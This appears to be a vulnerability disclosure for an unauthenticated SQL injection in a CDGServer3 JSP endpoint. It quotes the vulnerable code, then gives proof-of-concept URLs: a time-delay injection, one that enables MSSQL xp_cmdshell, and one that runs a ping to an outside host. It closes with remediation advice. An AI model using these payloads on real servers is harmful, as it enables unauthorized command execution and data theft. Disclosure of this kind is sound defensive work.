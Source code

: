 

# ![image-20250316215657668](./assets/image-20250316215657668.png)Vulnerability Report

## Title: Unauthenticated SQLI Leading to Remote Code Execution (RCE)

### Summary:

A SQL injection vulnerability was discovered in the `getFileTypeList.jsp` endpoint, specifically in the `typename` parameter. This vulnerability allows an unauthenticated attacker to execute arbitrary code on the MSSQL server, potentially gaining full control over the server.

### Affected Endpoint:

`CDGServer3/parameter/getFileTypeList.jsp`

### Vulnerability Type:

RCE

### Vulnerable Code:

```jsp
<%
	FileTypeInfo info = new FileTypeInfo();
	FileTypeDao dao = new FileTypeDao();
	List list = new ArrayList();
	int currPage = RequestUtil.getIntParameter(request, "curpage", 1); //当前是第几页
	String typename = request.getParameter("typename");
	if (typename == null) {
		typename = "";
	}
	PageUtil pageutil = dao.getFileTypeList(typename, currPage);
	list = pageutil.getRecords();
	session.setAttribute("maxrowcount", "" + pageutil.getRecordNum());
	session.setAttribute("maxpage", ""
			+ (pageutil.getPageNum() != 0 ? pageutil.getPageNum() : 0));
	session.setAttribute("curpage", "" + currPage);
	int count = 0;
	if (list != null && list.size() > 0) {
		count = list.size();
	}
%>
```

### Proof of Concept (PoC):

1. Time-based SQL Injection:

   ```
   https://uri/CDGServer3/parameter/getFileTypeList.jsp?typename=1';WAITFOR DELAY '0:0:10'--
   ```

2. Enabling `xp_cmdshell`:

   ```
   https://uri/CDGServer3/parameter/getFileTypeList.jsp?typename=1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
   ```

3. Executing arbitrary command:

   ```
   https://uri/CDGServer3/parameter/getFileTypeList.jsp?typename=1';exec master..xp_cmdshell 'ping fewfiews.ipv6.1433.eu.org.'--
   ```

### Impact:

This vulnerability allows an attacker to execute arbitrary commands on the server, which can lead to:

- Complete server compromise.
- Data exfiltration.
- Denial of Service (DoS) by executing resource-intensive commands.
- Potential lateral movement within the internal network.

### Recommendation:

1. **Input Validation and Sanitization:** Ensure that all user inputs are properly sanitized and validated. Use prepared statements with parameterized queries to prevent SQL injection.
2. **Least Privilege Principle:** Ensure the database user has the least privileges necessary for the application to function.
3. **Disable Dangerous Features:** Disable features like `xp_cmdshell` unless absolutely necessary.
4. **Regular Security Audits:** Conduct regular security audits and code reviews to identify and fix vulnerabilities.

### Conclusion:

The RCE in the `getFileTypeList.jsp` endpoint poses a significant security risk. Immediate remediation steps should be taken to sanitize user inputs and secure the database against unauthorized access and code execution.

### References:

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [Mitigation Techniques](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

